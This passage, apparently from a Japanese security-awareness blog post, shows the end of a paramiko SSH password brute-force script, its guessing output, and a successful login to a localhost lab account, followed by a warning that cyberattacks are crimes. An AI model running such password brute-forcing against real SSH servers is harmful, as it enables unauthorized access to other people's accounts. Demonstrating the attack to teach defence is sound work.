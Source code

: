 ```

            sys.exit()
        except paramiko.AuthenticationException:
            print(f"{PASSWORD} is not correct")
        finally:
            ssh.close()
```

!!! Note
    paramikoというライブラリが必要です。`pip install paramiko`でインストールしてください。

このコードを実行した結果、パスワードが奇跡的に判明しました。
```
$ python bruteforce_ssh.py 
earth is not correct
planet is not correct
physics is not correct
...
tornado is not correct
storm is not correct

SUCCESS!
username : chibutsu
password : aurora
```

早速パスワードを用いて、SSHログインを試みます。
```
$ ssh chibutsu@localhost -p 22222
chibutsu@localhost's password:  # "aurora"と入力
Welcome to Ubuntu 18.04.6 LTS (GNU/Linux 6.5.0-1017-azure x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
chibutsu@960522125acf:~$ 
```

これで不正ログイン完了です。「chibutsu」さんになりすますことができました。  
「chibutsu」を自分のアカウント名に置き換えて考えれば、この状況の深刻さが分かっていただけるかと思います。

ここからは権限昇格を狙う(管理者権限を取得する)・バックドアを仕込む(次から簡単にログインできるようにする)・機密ファイルを転送する等がありますが、これ以上は行いません。  

ここまでお付き合いいただきありがとうございました。

<span style="color: red; ">
    改めて、いかなる理由があろうともサイバー攻撃は犯罪です。興味本位で行ってはいけません。
    </span>

---
